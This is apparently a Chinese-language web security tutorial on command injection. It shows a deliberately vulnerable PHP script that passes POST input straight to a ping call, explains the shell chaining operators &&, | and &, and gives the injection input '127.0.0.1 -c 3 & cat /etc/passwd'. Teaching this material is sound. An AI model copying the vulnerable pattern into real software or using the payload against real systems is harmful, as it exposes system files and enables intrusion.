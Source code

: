 在部分WEB应用里，应用程序会提供一些命令执行操作，如没有过滤好用户输入的数据，就有可能产生命令执行漏洞 从而执行有危害系统命令。

```php
<?php 
if($_POST['ip']){
	echo system('ping '.$_POST['ip']);
}
?>
```

**命令连接符号总结**

```php
http://www.webtester.com/exec/exec01.php
```

command1 && command2 先执行command1后执行command2

command1 | command2 只执行command2

![image-20210414231447937](../acess/image-20210414231447937.png) 

command1 & command2 

先执行command1后执行command2

```bash
127.0.0.1 -c 3 & cat /etc/passwd
```

![image-20210414231345492](../acess/image-20210414231345492.png)